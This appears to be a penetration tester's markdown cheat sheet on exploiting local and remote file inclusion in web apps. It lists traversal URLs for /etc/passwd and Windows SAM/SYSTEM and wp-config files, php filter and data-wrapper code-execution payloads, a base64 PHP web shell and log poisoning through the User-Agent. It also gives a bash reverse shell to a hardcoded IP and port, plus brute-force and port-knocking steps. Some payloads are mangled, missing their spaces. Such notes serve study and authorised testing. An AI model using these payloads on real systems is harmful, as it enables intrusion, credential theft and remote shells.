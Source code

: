 LFI : Minimum no. of correct escapes (../) helps to retrieve file
/usr/share/seclists/Fuzzing/LFI

## LFI
/usr/share/seclists/Fuzzing/LFI  
while fuzzing using ffuf don’t forget to add admin session cookie and grep passwd for linux  
http://ip.com/test.php?Fuzz=/etc/passwd  
http://ip.com/test.php?file=fuzz (pathotest.txt)

### READ /etc/passwd & 22 OPEN ?
try hydra brute force for those usernames

### Port Knocking ? 
Try to do port knocking by reading knock file
location knock file /etc/init.d/knockd
```
sudo apt install knockd
```
run knock
```
knock IP port port port
```

### SAMBA There ? 
Look for 
/export/samba/secure/smbpasswd.bak and /etc/samba/smb.conf

ASSERTION PAYLOADS AND OTHER TRICKS 
https://book.hacktricks.xyz/pentesting-web/file-inclusion

### Bypass
#### Url Encoding 
php Filters 
```
php:// for getting b64 output, data:\\ for RCE or rev shell
```
Checking whether php wrappers are working
```
php://filter/resource=admin.php
php://filter/convert.base64-encode/resource=admin.php
```
Direct RCE if log poisoning didn’t work checking if data wrappers work
```
data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?phpechosystem($_GET["cmd"]);?>' | base64
data:text/plain,<?php echo shell_exec("bash/tmp/reverse.sh");?>data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
**/etc/passwd** (base-64-encoded as `L2V0Yy9wYXNzd2Q=`)which becomes
```
http://192.168.120.121:8080/data/L2V0Yy9wYXNzd2Q=:
```
Seperate Users from /etc/passwd
```
cut -d ":" -f1 sshUsers2
```
Reference : https://github.com/takabaya-shi/LFI2RCE

### Log Poisoning
- Try to read /var/log/apache2/access.log (Linux) or C:\xampp\apache\logs \access.log (Windows)
- Worked? log poisoning possible
- Add this <?phpechosystem($_GET['cmd']);?> in User-Agent Burpsuite
- RCE via &cmd=
(Bourne Shell)
```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
Notes : (Bash or Sh rev shell wont work since code is executing via php system func)

**Notes** : NOT ALWAYS LFI CAN BE USED TO GET REVSHELL DIRECTLY USING LOG POISONING OR VIA RFI.

### Windows 
```
C:\Program%20Files\FileZilla%20Server\FileZilla%20Server.xml
```

```
..%5C..%5C..%5C..%5C..%5C..%5C/Windows/System32/config/RegBack/SYSTEM.OLD
```

```
..%5C..%5C..%5C..%5C..%5C..%5C/Windows/System32/config/RegBack/SAM.OLD
```

```
..\..\..\..\..\..\..\..\..\xampp\security\webdav.htpasswd
```

```
..\..\..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php
```

## RFI
host php-reverse-shell.php using python server
enter url in parameter after listening netcat
Shell